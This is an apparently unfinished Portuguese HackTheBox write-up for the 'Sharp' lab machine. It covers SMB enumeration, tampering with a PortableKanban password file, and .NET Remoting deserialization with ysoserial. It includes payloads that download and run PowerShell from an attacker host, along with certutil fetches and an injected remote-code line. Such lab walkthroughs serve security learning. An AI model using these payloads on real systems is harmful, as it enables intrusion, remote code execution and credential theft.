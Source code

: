 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Sharp - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![image](https://i.imgur.com/b8fWlNj.png)

**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
smbclient
rpcclient
ExploitRemotingService
netcat
python
ysoserial
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT     STATE SERVICE            VERSION
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8888/tcp open  storagecraft-image StorageCraft Image Manager
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host


Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-12-08T12:21:23
|_  start_date: N/A

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   224.18 ms 10.10.14.1
2   224.76 ms 10.10.10.219
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L \\10.10.10.219 -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/Fvm7tk6.png)

Vamos ao diretório kanban
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L \\10.10.10.219\\kanban -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/yIbnT0B.png)

Podemos ver um arquivo chamado PortableKanban.pk3.bak que apararente ser um arquivo de backup, então vamos lê-lo
![Image](https://i.imgur.com/wWij6x7.png)

Ao abri-lo, podemos ver que, dentro do arquivo existem senhas criptografadas:
![Image](https://i.imgur.com/m4DVEag.png)

Começamos acessando o serviço SMB para copiar o programa para nossa maquina:

![Image](https://i.imgur.com/Wkz1IMK.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient \\\\10.10.10.219\\kanban -N
get pkb.zip
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Essa máquina, pela primeira vez tive que criar uma máquina Windows para usar como atacante...
Extraímos os arquivos do nosso arquivo pkb.zip

![Image](https://i.imgur.com/u7nyOBw.png)


Ao executarmos o arquivo PortableKanban.exe podemos perceber que ele faz a criação do arquivo PortableKanban.pk3.bak onde ele guarda as credenciais...
Então vamos substituir pelo arquivo PortableKanban.pk3.bak que encontramos em nosso alvo.

Ao substituir o arquivo PortableKanban.pk3, precisamos de credenciais para conseguir acessar o programa.

![Image](https://i.imgur.com/q1UFNLT.png)

![Image](https://i.imgur.com/GSP4UQv.png)

Pesquisando um pouco mais sobre o Kanban, pude perceber que dentro do programa é possivel retornar as senhas em plain-text com uma conta de Administrador...
Em nosso arquivo temos essas informações:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"k+iUoOvQYG98PuhhRC7/rg==","Role":"Admin","Inactive":false,"TimeStamp":637409769245503731}
{"Id":"0628ae1de5234b81ae65c246dd2b4a21","Name":"lars","Initials":"","Email":"","EncryptedPassword":"Ua3LyPFM175GN8D3+tqwLA==","Role":"User","Inactive":false,"TimeStamp":637409769265925613}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Portanto, temos um usuário administrador e um user comum.
O que podemos fazer é tentar editar o arquivo que guarda as senhas para acessar
Primeiro, vamos remover a senha do usuário lars para conseguir a senha do usuário Administrator, para isso deixaremos o campo 'EncryptedPassword' vazio, além disso, mudaremos a parte 'Role' de user para Admin.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"Id":"0628ae1de5234b81ae65c246dd2b4a21","Name":"lars","Initials":"","Email":"","EncryptedPassword":"","Role":"Admin","Inactive":false,"TimeStamp":637409769265925613}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após isso, tentamos acessar o programa com usuário 'lars' sem senha.

![Image](https://i.imgur.com/Af60F1P.png)


Ao desmarcar a opção Hide Passwords, temos nossas primeiras credenciais:
![Image](https://i.imgur.com/fk984oq.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Administrator:G2@$btRSHJYTarg
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Com isso, podemos voltar para nosso arquivo PortableKanban.pk3 inicial.
Agora ao abrirmos o Kanban, usamos as credenciais de Administrator.

Agora temos credenciais do usuário lars e do usuário Administrator:
![Image](https://i.imgur.com/tlGO5us.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
lars:G123HHrth234gRG
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

No outro diretório do SMB, chamado dev:

![Image](https://i.imgur.com/Er6JZCu.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient \\\\10.10.10.219\\dev -U lars
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Fazemos o download de todos esses arquivos para a nossa máquina para podermos analisarmos.

Usamos o dnSpy para analisar os arquivos .exe
Dentro do arquivo Client.exe, temos uma informação interessante:

![Image](https://i.imgur.com/gUNQ87R.png)

Temos uma credencial e um endereço:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
debug:SharpApplicationDebugUserPassword123!
tcp://localhost:8888/SecretSharpDebugApplicationEndpoint
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Pesquisando sobre como interagir com esse serviço, encontramos um exploit que interage com esse serviço através do Remoting.Channels.Tcp, o [ExploitRemotingService](https://github.com/tyranid/ExploitRemotingService).

Podemos compilar ele em nossa máquina, ou já fazer o download dele [compilado](https://github.com/parteeksingh005/ExploitRemotingService_Compiled).

Agora precisamos preparar nosso payload que enviaremos atraves do ExploitRemotingService.
Para isso vamos precisar do python e também do [yososerial](https://github.com/pwntester/ysoserial.net).

Devemos compilar o yososerial ou baixa-lo já [compilado](https://github.com/pwntester/ysoserial.net/releases/tag/v1.34).

Após isso, devemos preparar nossa shell.
Usaremos está [shell.ps1](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell -c IEX(new-object net.webclient).downloadstring('10.10.14.136/chu.ps1')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ExploitRemotingService.exe --user=debug --pass=SharpApplicationDebugUserPassword123! tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell -c IEX(new-object net.webclient).downloadstring('http://10.10.14.128/winpeas.exe')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





Ao acessar a pasta C:\users\lars\Documents\ nos deparamos com uma pasta chamada wcf, vamos compacta-la e move-la para o diretório compartilhado do SMB.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Compress-Archive -LiteralPath C:\users\lars\Documents\wcf -DestinationPath C:\users\lars\Documents\wcf.zip
move-item -path C:\users\lars\Documents\wcf.zip -destination c:\dev
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após compactar e mover para pasta compartilhada no SMB, acessamos com credenciais já obtidas e baixamos para nossa máquina:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient \\\\10.10.10.219\\dev -U lars
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao baixar o arquivo para nossa máquina, podemos abri-lo no VisualStudio:
![Image](https://i.imgur.com/yEePAM8.png)

Vamos adicionar nossa linha no código
![Image](https://i.imgur.com/MBxWpho.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Console.WriteLine(client.InvokePowerShell(" iex (new-object net.webclient).downloadstring('http://10.10.14.136/chu.ps1')"));
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
certutil -urlcache -split -f "http://10.10.14.136/WcfRemotingLibrary.dll" WcfRemotingLibrary.dll
certutil -urlcache -split -f "http://10.10.14.136/WcfClient.exe" WcfClient.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo 





if i helped you, add + respect at my profile :D
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>
 
my references
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://parsiya.net/blog/2015-11-14-intro-to-.net-remoting-for-hackers/
https://docs.microsoft.com/pt-br/dotnet/api/system.runtime.remoting.channels.tcp?view=netframework-4.8
https://docs.microsoft.com/pt-br/dotnet/api/system.runtime.remoting.channels.tcp.tcpchannel?view=netframework-4.8
https://github.com/tyranid/ExploitRemotingService
https://eternallybored.org/misc/netcat/
https://github.com/pwntester/ysoserial.net
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
